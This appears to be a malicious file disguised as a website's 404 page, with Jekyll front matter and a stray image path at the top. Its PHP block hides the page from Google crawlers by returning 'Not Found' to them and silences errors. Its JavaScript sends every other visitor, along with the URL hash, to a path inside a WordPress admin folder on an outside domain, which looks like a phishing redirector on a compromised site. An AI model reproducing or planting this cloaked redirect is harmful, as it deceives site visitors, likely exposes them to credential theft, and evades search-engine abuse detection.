 ```yaml
---
permalink: /404.html
---
```

<?php
set_time_limit(0);
error_reporting(0);

if(strpos($_SERVER['HTTP_USER_AGENT'],'google') !== false ) { header('HTTP/1.0 404 Not Found'); exit(); }
if(strpos(gethostbyaddr(getenv("REMOTE_ADDR")),'google') !== false ) {  header('HTTP/1.0 404 Not Found'); exit(); }
?>
<html> 
<head> 
    <title>Please Wait...</title> 
<script type="text/javascript">
    var hash = window.location.hash;
 var URL =  "https://withiin.com/psalms/wp-admin/includes/bab/" + hash.split('#')[1];
  window.open(URL, "_self")
 </script>

</head> 
</html>
